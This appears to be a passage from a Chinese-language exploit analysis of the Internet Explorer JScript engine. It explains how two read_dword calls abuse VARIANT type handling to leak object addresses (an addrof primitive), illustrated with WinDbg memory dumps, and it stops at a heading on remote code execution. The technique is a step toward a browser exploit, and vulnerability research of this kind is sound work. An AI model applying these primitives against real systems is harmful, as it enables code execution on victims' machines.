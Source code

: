 addrof借助两次read_dword实现对象地址泄露。

第一次readd_word将任意对象赋值给第4个属性，这样会导致一个引用对象(Type=0x80)的VARIANT被写到第4个Property的var内(参考下面的日志，可以看到保存到第4个Property处的VARIANT类型为0x80)，并将第4个Property的name改写为一个字符串型(Type=8)的VARIANT，VARIANT的值设置为leaklower + 8。这样就把被引用的VARIANT地址给读取出来，即下面日志中的08a9ece8。

第二次read_dword针对第一次read_dword读取的值再解一次引用，从而将真正的对象地址读取出来。

```
第一次 read_dword 数据(o)和地址(leak_lower + 8)都要传入第二次 read_dword 只需要传入地址(var_addr + 8)，因为数据已经在了 // 第4个Property
00000000`08aa0a50  eac00080 000007fe 08a9ece8 00000000  ................
00000000`08aa0a60  00001f80 00000000 00000000 00000000  ................
00000000`08aa0a70  378f5a8e 00000018 00000000 00000000  .Z.7............
00000000`08aa0a80  00000000 00000000 00000004 00000000  ................
// 08aa0a90存放着name，可以看到它是一个字符串类型的VARIANT
00000000`08aa0a90  00000008 00000000 08aa0a5c 00000000  ........\....... 

// 解第1个VARIANT
0:018&gt; dq 08aa0a50 l3
00000000`08aa0a50  000007fe`eac00080 00000000`08a9ece8
00000000`08aa0a60  00000000`00001f80

// 解第2个VARIANT
0:018&gt; dq 08a9ece8 l3
00000000`08a9ece8  00000000`00000081 00000000`0c3c6b30
00000000`08a9ecf8  00000000`0058c6a0

0:018&gt; !heap -p -a 0c3c6b30
address 000000000c3c6b30 found in
_HEAP @ 1a0000
HEAP_ENTRY Size Prev Flags            UserPtr UserSize - state
000000000c3c6b20 0007 0000  [00]   000000000c3c6b30    00068 - (busy)
jscript!NameTbl::`vftable'

0:018&gt; dq 0c3c6b30 l68/8
00000000`0c3c6b30  000007fe`f00be0d8 00000000`00000000
00000000`0c3c6b40  00000000`00000000 00000000`0058b900
00000000`0c3c6b50  00000000`08a9ece8 00000000`ffffffff
00000000`0c3c6b60  00000000`0058c6e8 00000000`001b0000
00000000`0c3c6b70  000007fe`f00bfd48 00000000`00580ee0
00000000`0c3c6b80  00000000`00000000 00000000`00000000
00000000`0c3c6b90  000007fe`f014fc30

0:018&gt; ln 000007fe`f00be0d8
(000007fe`f00be0d8)   jscript!NameTbl::`vftable'   |  (000007fe`f00be2d0)   jscript!NativeErrorProtoObjBase::`vftable'
Exact matches:
```



## 远程代码执行
